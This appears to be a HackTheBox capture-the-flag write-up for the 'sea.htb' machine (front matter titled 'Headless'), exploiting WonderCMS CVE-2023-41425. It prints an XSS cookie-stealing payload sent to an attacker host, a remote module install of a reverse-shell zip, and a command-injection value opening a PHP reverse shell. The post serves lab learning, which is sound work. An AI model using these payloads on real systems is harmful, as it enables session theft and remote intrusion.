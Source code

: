 ```yaml
---
title: "Headless Hackthebox"
date: 2024-07-05
draft: false
tags : ["write-up", "htb"]

---
```


## User flag
### Recon

Firtsly, `sea.htb` is built from [wondercms](https://www.wondercms.com/). You can check it by enumerating the web or searching the string `velik71` appeared on the banner. 

Checking the `/themes/bike/wcms-modules.json`, I found the version of this website is `3.2.0`. It has a [CVE-2023-41425](https://github.com/prodigiousMind/CVE-2023-41425) that allows an attacker to a remote attacker to execute arbitrary code via a crafted script uploaded to the installModule component.

I also found a `contact.php` page which allows us to send infomation including a malicous link to the admin.

### Exploitation
I use the `contact.php` page to send a link to the admin to steal the cookie. 

```
http://sea.htb/index.php?page="></form><script>fetch('http://<ip>:<port>?cookie='+document.cookie)</script><form action="
```
Use this cookie to access the admin page


Use the `installModule` to upload a reverse shell to the server and access the server as `www-data`.
```
http://sea.htb/?installModule=http://10.10.14.64:9000/reverseshell.zip&directoryName=essence&type=themes&token=<token>
```
![alt text](/posts/sea-htb/image.png)

Enumerate current directory, I found a database.js file in `/var/www/sea/data` which contains the Bcrypt hash of password. Use `john` to crack it and it is password of `amay`.
![alt text](/posts/sea-htb/image-1.png)

Get the user flag at `/home/amay/user.txt`


## Root flag

List listened ports opened:
```bash
netstat -tulnp | grep LISTEN
```

The local host is running a web on port 8080. I use ssh tunnel to access it. 

```bash
ssh -L 8081:127.0.0.1:8080 amay@10.10.11.28
```
![alt text](/posts/sea-htb/image-2.png)



The web is a *System Monitor* page. The page get the `log_file` parameter to read the file and filter the content. It may uses shell script with php system function like `system` or `passthru`,... to read the file. To get flag, I modified the `log_file` param to shell script to read the root flag and send it to my server.

```bash
; php -r '$sock=fsockopen("10.10.14.8",9000);`/bin/sh <&3 >&3 2>&3`;'
```
![alt text](/posts/sea-htb/image-3.png)


The shell last for a few seconds, so you can change `/bin/sh` to `cat /root/root.txt` to get the root flag.
![alt text](/posts/sea-htb/image-4.png)

